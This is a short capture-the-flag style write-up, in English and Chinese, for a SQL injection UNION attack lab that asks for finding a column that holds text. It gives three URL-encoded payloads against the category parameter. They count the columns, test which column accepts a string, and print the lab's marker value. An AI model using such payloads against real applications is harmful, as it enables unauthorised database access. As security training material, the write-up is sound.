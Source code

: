 # Lab: SQL injection UNION attack, finding a column containing text

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## SQL injection
* 注入點在 `category`
* 題目說要輸出特定的字串，因此需要知道說哪一個 column 是可以在網頁輸出的，先用 NULL 確定有多少個 columns，之後再看哪一個 column 可以輸出
```
// 確認有多少個 columns
payload = Toys+%26+Games%27%20union%20select%20NULL,NULL,NULL%20--%20-
```
```
// 確認哪一個 column 可以輸出在網頁上
payload = Toys+%26+Games%27%20union%20select%20NULL,'1',NULL%20--%20-
```
```
// 輸出題目指定的特殊字串
payload = Toys+%26+Game%27%20union%20select%20NULL,%27CY0A1W%27,NULL%20--%20-
```